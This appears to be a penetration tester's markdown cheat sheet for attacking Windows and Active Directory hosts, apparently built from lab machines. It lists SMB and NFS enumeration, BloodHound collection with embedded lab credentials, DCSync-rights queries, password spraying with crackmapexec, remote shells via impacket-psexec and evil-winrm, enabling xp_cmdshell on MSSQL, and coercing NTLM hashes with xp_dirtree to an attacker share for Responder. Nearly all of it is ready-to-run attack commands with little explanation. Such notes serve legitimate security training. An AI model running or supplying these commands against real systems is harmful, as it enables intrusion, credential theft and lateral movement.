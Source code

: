 # Windows Recon & Attack
## Enumeration
### Common
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
Enumerate NFS Shares
```bash
/usr/sbin/showmount -e <IP>
```
Connect to NFS Shares
```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```
### Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
Bloodhound-Python
```bash
bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
PowerView/Sharpview
```powershell
#Get all users without a blank description field
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}

#Get all all users with DCSync
$dcsync = Get-ObjectACL "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsync
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree  
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
#Collect hashes from Responder
```

